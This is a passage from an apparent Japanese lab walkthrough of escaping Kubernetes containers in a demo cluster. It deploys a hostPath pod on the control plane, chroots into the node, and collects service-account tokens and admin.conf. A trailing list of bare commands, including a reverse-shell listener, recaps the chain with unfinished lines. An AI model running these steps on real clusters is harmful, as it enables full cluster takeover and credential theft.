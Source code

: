 ```bash
    hostPath:
      path: /
      type: Directory
' > pod2.yaml
```

Pod をデプロイすると、想定通りコントロールプレーンで立ち上がりました。

```bash
[unguard-proxy-service]: ./kubectl apply -f pod2.yaml --kubeconfig kubeconfig
pod/attack-pod-2 created

[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
attack-pod-1                                  1/1     Running     1 (18m ago)   15m     10.0.0.16    kind-worker          <none>           <none>
attack-pod-2                                  1/1     Running     1 (16m ago)   6m      10.0.2.97    kind-control-plane   <none>           <none>
```

ワーカーノードの時と同様に攻撃用コンテナに Exec し、ノードのファイル操作ができる状態にします。

```bash
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-2 -- bash

[attack-pod-2]: cat /etc/hostname
attack-pod-2

[attack-pod-2]: ls /
bin  boot  dev  etc  home  host-system  lib  lib64  media  mnt  opt  proc  product_name  product_uuid  root  run  sbin  srv  sys  tmp  usr  var

[attack-pod-2]: chroot /host-system bash

[control-plane]: cat /etc/hostname
kind-control-plane
```

![k8s-diagram-05](./images/k8s-diagram-05.png)


[attack-server]: ./curlshell.py --listen-port 1234
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: cd /tmp/
[unguard-proxy-service]: curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
[unguard-proxy-service]: chmod +x kubectl
[unguard-proxy-service]: echo "
[unguard-proxy-service]: ./kubectl auth whoami --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig | grep unguard
[unguard-proxy-service]: ./kubectl get po -A --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get no --kubeconfig kubeconfig
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-1 -- bash
[attack-pod-1]: cat /etc/hostname
[attack-pod-1]: ls /
[attack-pod-1]: ls /host-system
[attack-pod-1]: chroot /host-system bash
[worker-node]: cat /etc/hostname
[worker-node]: cd /tmp/
[worker-node]: crictl ps
[worker-node]: crictl inspect 9280e4f6f7f8f | grep -A 2 -m 1 /var/run/secrets/kubernetes.io/serviceaccount
[worker-node]: sa_path=/var/lib/kubelet/pods/ab46f469-a60c-4588-9d21-3a713174b101/volumes/kubernetes.io~projected/kube-api-access-b6x66
[worker-node]: echo "
[worker-node]: kubectl auth whoami --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig kind-control-plane -o yaml
[worker-node]: exit
[attack-pod-1]: exit
[unguard-proxy-service]: cat /etc/hostname
[unguard-proxy-service]: echo '
[control-plane]: ls /etc/kubernetes/
[control-plane]: kubectl auth whoami --kubeconfig /etc/kubernetes/admin.conf
[control-plane]: kubectl get pod -A --kubeconfig /etc/kubernetes/admin.conf